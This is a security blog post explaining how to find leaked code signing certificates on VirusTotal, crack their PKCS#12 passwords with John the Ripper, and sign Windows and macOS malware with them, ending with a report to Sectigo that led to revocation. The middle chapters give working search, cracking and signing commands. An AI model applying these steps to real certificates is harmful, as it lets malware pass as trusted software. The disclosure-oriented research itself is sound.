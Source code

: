 ```yaml
---
layout: post
title: Finding and utilising leaked code signing certificates
subtitle: Code signing certificates sometimes unexpectedly end up online. In this blog post I describe how to find, crack, and use them to sign malware.
description: Using services such as GitHub or VirusTotal, it is possible to find leaked code signing certificates. For some, the password can be cracked, after which they can be used to sign malicious code. In this blog post I explain this process, including responsible disclosure measures.
keywords: leaked, code, signing, certificates, malware
author: Tijme Gommers
include_in_header: false
include_in_footer: false
show_in_post_list: true
robots: index, follow
---
```


**[TL;DR]** Using tools such as VirusTotal, it is possible to find leaked code signing certificates. For some, the password can be cracked, after which they can be used to sign malicious code. In this blog post I explain this process, including responsible disclosure measures.

<hr>

This blog post consists of 4 chapters. [Finding](#1-finding-certificates) leaked certificates, [cracking](#2-cracking-pkcs12-passwords) their passwords, using them to [sign malware](#3-signing-malware), and [reporting](#4-reporting-leaked-certificates) leaked certificates to certificate authorities.

### 1. Finding certificates

There are many ways to find code signing certificates online. If you're lucky, you'll find one that is still valid. In my journey, I mostly used VirusTotal, but it seems that platforms like [Grayhat Warfare](https://grayhatwarfare.com/){:target="_blank"}{:rel="noopener noreferrer"} and [GitHub](https://github.com/){:target="_blank"}{:rel="noopener noreferrer"} also have many certificates uploaded to them. We'll use VirusTotal in this blog post.

With the query below, you can find files with a byte sequence commonly observed in signing certificates. The sequence is often part of ASN.1 DER encoded files ([RFC7292](https://datatracker.ietf.org/doc/html/rfc7292){:target="_blank"}{:rel="noopener noreferrer"}). At offset 4, a version number should be present that always has the value 3. This is denoted by the `02 01 03`. The 4<sup>th</sup> byte in the sequence is `30`, which represents the start of a new sequence.

    content:{02 01 03 30}@4 NOT tag:msi AND NOT tag:peexe

The results can be downloaded via the VirusTotal GUI or API.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/search-results-virustotal.png"
    title="Search results on VirusTotal"
    album="finding-certificates"
    width="2878" 
    height="1084"
%}

I downloaded about 50 certificates that were [recently uploaded](https://www.virustotal.com/gui/search/content%253A%257B02%252001%252003%252030%257D%25404%2520NOT%2520tag%253Amsi%2520AND%2520NOT%2520tag%253Apeexe%2520AND%2520ls%253A5d%252B/files){:target="_blank"}{:rel="noopener noreferrer"} to VirusTotal.

### 2. Cracking PKCS#12 passwords

My go-to hash-cracking software is Hashcat. Unfortunately, it does not support cracking PKCS#12 files. John the Ripper *does* support PKCS#12. First, we need to extract a hash from our PKCS#12 file. This can be done using John's `pfx2john.py` Python script. I made a [few changes](https://gist.github.com/tijme/86edd06c636ad06c306111fcec4125ba){:target="_blank"}{:rel="noopener noreferrer"} to make the script compatible with Python 3.

    pfx2john.py certificate.pfx > certificate.hash

If you've generated hashes based on the certificates you found, you can crack them using John with the following arguments. In this example, we use `rockyou.txt` as a wordlist.

{% highlight bash %}
$ john --wordlist=rockyou.txt --format=pfx-opencl ./hashes/*

Using default input encoding: UTF-8
Loaded 13 password hashes with 13 different salts (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2)])
-- snip --
123              (7f61a5a51fe9eef15c9e2ddf03fe10c6.pfx)
123              (66a9882f1d8463501f7fc89b1a12700b.pfx)
                 (83bfdbd568b967baf24b7c44935b9a12.pfx)
test             (certificate.pfx)
-- snip --
Session completed.
{% endhighlight %}

> :warning: If John cannot load your hash, make sure to install the latest version of John from source (to ensure you have PKCS#12 support).

As you can see, some of the hashes got cracked quite easily. The password for the last one is `test`. For the cracked certificates, check if they're trusted and still valid (e.g. not revoked). For the trusted and valid ones, ensure that they have the `Code Signing` Object Identifier (OID): `1.3.6.1.5.5.7.3.3`. Now hopefully you have one left. You'll be able to use it to sign malware!

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/extended-key-usage-code-signing.png"
    title="Extended Key Usage: Code Signing"
    album="validating-certificates"
    width="2226" 
    height="604"
%}

PS: If you want to use a more extensive password list with John the Ripper, look for one on [Weakpass](https://weakpass.com/wordlist){:target="_blank"}{:rel="noopener noreferrer"}. You could try to use rules and masks as well. I've added two examples below for you to get started.

{% highlight bash %}
# With rules
./john --wordlist=rockyou.txt --format=pfx-opencl ./hashes/* --rules:OneRuleToRuleThemAll

# With mask
./john --mask=?1?1?1?1?1?1?1?1?1 -1=[A-z0-9\!\@] --format=pfx-opencl ./hashes/* -min-len=1
{% endhighlight %}

### 3. Signing malware

If you've found and cracked a valid and trusted signing certificate, you can use it to sign malware. I'll demonstrate signing malware for both Windows and MacOS.

**Windows**

To sign PE files, there is an amazing open source project called [osslsigncode](https://github.com/mtrojnar/osslsigncode){:target="_blank"}{:rel="noopener noreferrer"}. Once installed, run the following command to create a signed version of your malware.

{% highlight bash %}
osslsigncode sign -pkcs12 certificate.pfx -pass test -in malware.exe -out signed-malware.exe
Succeeded
{% endhighlight %}

To verify if the signature is valid and correctly applied, you can use `osslsigncode` as well.

{% highlight bash %}
osslsigncode verify signed-autoruns.exe

-- snip --
Authenticated attributes:
    Message digest algorithm: SHA256
    Message digest: C89F86DBE18BB37C44857F3535E5984DCA783610BDFEBF18F659F5275D8D5236
    Signing time: Jun  7 18:49:06 2023 GMT
    Microsoft Individual Code Signing purpose

-- snip --
Signature verification: ok

Number of verified signatures: 1
Succeeded
{% endhighlight %}

> :warning: Please note that in my experience `osslsigncode` does not check if a certificate has been revoked.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/signed-malware.png"
    title="Signed malware"
    album="signed-malware"
    width="1646" 
    height="578"
%}

Finally; enjoy your signed malware!

**MacOS**

If you're signing an existing (modified) app for MacOS, please first remove the existing signature.

{% highlight bash %}
codesign --remove-signature malicious.app
{% endhighlight %}

Afterwards, import the signing certificate into your keychain. Right-click it and create a new signing identity. Use a name of your choice.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/sign-create-identity.png"
    title="Creating a signing identity"
    album="signing-malware"
    width="1682" 
    height="358"
%}

You can now use this identity to sign your malicious app.

{% highlight bash %}
codesign -s "your_identity" malicious.app
{% endhighlight %}

To check if everything worked, we verify the signature. If everything is okay, the command will not output anything. 

{% highlight bash %}
codesign --verify malicious.app
{% endhighlight %}

If something is wrong, an error will be shown. This is what the output looks like when, for example, your certificate is revoked.

{% highlight bash %}
codesign --verify malicious.app

malicious.app: CSSMERR_TP_CERT_REVOKED
In architecture: x86_64
{% endhighlight %}

### 4. Reporting leaked certificates

In the example above, the leaked certificate was issued by Sectigo. Sectigo, and any other certificate authority, provides ways to report abuse, including fraudulent or malicious use of certificates. I mailed Sectigo with the following details of the certificate that I found:

* VirusTotal link (including a link to malware signed by the certificate).
* Password.
* Serial number.
* SHA-256 hash.
* SHA-1 hash.

8 days later Sectigo stated that, upon continued investigation, they found that the signing certificate was indeed involved in malicious activity and has now been revoked.
